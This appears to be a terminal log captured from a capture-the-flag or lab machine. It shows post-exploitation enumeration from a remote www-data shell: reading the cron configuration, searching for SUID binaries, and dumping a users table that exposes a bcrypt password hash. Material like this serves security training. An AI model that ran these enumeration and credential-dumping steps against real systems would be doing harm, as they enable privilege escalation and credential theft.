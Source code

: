 ```bash
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
cat: /etc/cron.weekly: est un dossier
cat: /etc/cron.yearly: est un dossier
(remote) www-data@boxing:/opt/sos$ cd /var/www
(remote) www-data@boxing:/var/www$ ls
dev  html
(remote) www-data@boxing:/var/www$ ls -la
total 16
drwxr-xr-x  4 root root 4096  4 févr. 03:15 .
drwxr-xr-x 12 root root 4096  4 févr. 17:00 ..
drwxr-xr-x  3 root root 4096  4 févr. 03:15 dev
drwxr-xr-x  5 root root 4096  4 févr. 17:17 html
(remote) www-data@boxing:/var/www$ cd dev
(remote) www-data@boxing:/var/www/dev$ ls -la
total 40
drwxr-xr-x 3 root root  4096  4 févr. 03:15 .
drwxr-xr-x 4 root root  4096  4 févr. 03:15 ..
-rw-r--r-- 1 root root 24576  4 févr. 03:15 boxing_database.db
drwxr-xr-x 2 root root  4096  4 févr. 03:15 cache
-rw-r--r-- 1 root root  1579  4 févr. 03:15 index.php
(remote) www-data@boxing:/run$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
(remote) www-data@boxing:/var/www/dev$ file boxing_database.db 
boxing_database.db: SQLite 3.x database, last written using SQLite version 3040001, file counter 5, database pages 6, cookie 0x4, schema 4, UTF-8, version-valid-for 5
(remote) www-data@boxing:/var/www/dev$ sqlite3 boxing_database.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .help
.....
sqlite> .tables
fighters  matches   news      users   
sqlite> select * from users
   ...> ;
1|cassius|$2b$05$gPKe1EUBPZidX/j3qTDapeznU4CMfkpMd0sQhgehhhoG/pwc4OnVu
```
